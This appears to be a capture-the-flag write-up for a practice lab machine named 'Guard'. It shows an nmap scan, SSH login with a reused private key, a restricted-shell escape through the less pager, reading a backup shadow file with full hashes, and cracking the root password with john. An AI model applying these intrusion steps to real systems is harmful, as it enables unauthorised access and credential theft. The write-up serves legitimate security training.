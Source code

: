 ## ------>> Guard <<--------

// We have daniel's ssh private key from last machine (MarkUp).

// We start with nmap scan

    $ nmap -sC -sV -A -Pn 10.10.10.50 -p-
    
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-02 20:22 EDT
    Connect Scan Timing: About 95.09% done; ETC: 20:35 (0:00:37 remaining)
    Nmap scan report for 10.10.10.50
    Host is up (0.44s latency).
    Not shown: 65534 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 2a:64:23:e0:a7:ec:1d:3b:f0:63:72:a7:d7:05:57:71 (RSA)
    |   256 b3:86:5d:3d:c9:d1:70:ea:d6:3d:36:a6:c5:f2:be:5d (ECDSA)
    |_  256 c0:5b:13:0f:d6:e6:d1:71:2d:55:e2:4a:e2:27:0e:c2 (ED25519)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


// Since we know all the machines in starting point are "Chained-Up", and we have ssh private key for user daniel from last machine 
we can try to connect with him

    $ ssh -i ssh_daniel.key daniel@10.10.10.50

    Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-88-generic x86_64)
    daniel@guard:~$ id
    uid=1000(daniel) gid=1000(picasso) groups=1000(picasso),27(sudo)


// cat not work but less yes

    daniel@guard:~$ less user.txt
    209333....................
    user.txt (END)
    
    
// cat /etc/passwd we can see that daniel do not have regolar shell but have rbash

    daniel@guard:~$ cat /etc/passwd
    ...
    daniel:x:1000:1000:picasso:/home/picasso:/bin/rbash
    ...

// there is a trick to add some confirguration like vim with command more

// and shrink the window to small as possible then you can add ur on syntax

// and execute other shell (our case we want /bin/bash so locate !bash)

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Guard/1.png)
![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Guard/2.png)
![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Guard/3.png)


// Now we can use cat

    daniel@guard:~$ cat user.txt
    20933....................

// Digging in the machine

// we found 2 hashes of daniel's and root at /var/backups

    daniel@guard:/var/backups$ cat shadow

    root:$6$KIP2PX8O$7VF4mj1i.w/.sIOwyeN6LKnmeaFTgAGZtjBjRbvX4pEHvx1XUzXLTBBu0jRLPeZS.69qNrPgHJ0yvc3N82hY31:18334:0:99999:7:::
    daemon:*:18113:0:99999:7:::
    ...
    pollinate:*:18113:0:99999:7:::
    sshd:*:18326:0:99999:7:::
    daniel:$6$2EEJjgy86KrZ.cbl$oCf1MzIsN7N9KziBNo7uYrHLueZLM7wySrsFYxlNtO5NVhfVsyWCSKiIURNUxOOwC0tm1kyQsiv93imCwLM0k1:18326:0:99999:7:::

// Lets crack the using 'john', First copy them to file hashs.txt

    $ cat hashes.txt 

    root:$6$KIP2PX8O$7VF4mj1i.w/.sIOwyeN6LKnmeaFTgAGZtjBjRbvX4pEHvx1XUzXLTBBu0jRLPeZS.69qNrPgHJ0yvc3N82hY31:18334:0:99999:7:::
    daniel:$6$2EEJjgy86KrZ.cbl$oCf1MzIsN7N9KziBNo7uYrHLueZLM7wySrsFYxlNtO5NVhfVsyWCSKiIURNUxOOwC0tm1kyQsiv93imCwLM0k1:18326:0:99999:7:::

    $ john hashes.txt -w=/wordlists/rockyou.txt
    
    Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
    Use the "--format=HMAC-SHA256" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 ASIMD 2x])
    Cost 1 (iteration count) is 5000 for all loaded hashes
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    password#1       (root)

// root's password : password#1

// Now we can ssh with root

    $ ssh root@10.10.10.50
----

    root@10.10.10.50's password: 
    Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-88-generic x86_64)
    
    root@guard:~# id
    uid=0(root) gid=0(root) groups=0(root)
    
    root@guard:~# cat root.txt
    386ca63de....................

